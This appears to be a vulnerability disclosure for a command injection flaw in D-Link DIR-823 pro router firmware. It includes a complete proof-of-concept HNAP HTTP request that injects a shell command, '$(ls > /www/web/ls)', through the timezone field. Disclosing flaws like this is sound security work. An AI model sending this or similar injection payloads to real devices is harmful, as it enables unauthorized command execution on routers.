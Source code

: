# D-link 823pro v1.0.2  has a commend injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: D-link (http://www.dlink.com.cn/)
- **Products**: WiFi Router Link 823 pro
- **Firmware download address:** http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-823

## Description

### 1.Product Information:

DIR-823_A1_FW100WWb04

![image-20220308205710973](images/image-20220308205710973.png)



### 2.Vulnerability details

Drink 823-pro DIR-823_A1_FW100WWb04 was discovered to contain a command injection vulnerability in `SetNTPServerSetings` function

![image-20220227183658566](images/image-20220227183658566.png)



### 3.Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 81
Accept: application/json
HNAP_AUTH: 84E9E7AB41420A00EC4C179066EAF998 1646491157369
SOAPACTION: "http://purenetworks.com/HNAP1/SetNTPServerSettings"
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/SNTP.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=QD6gTcDw; PrivateKey=AE0E560AEB738499F86E570B459ED5F2; work_mode=router; timeout=108
Connection: close

{"SetNTPServerSettings":{"system_time_timezone":"$(ls > /www/web/ls)"}}
```

![image-20220305225007614](images/image-20220305225007614.png)





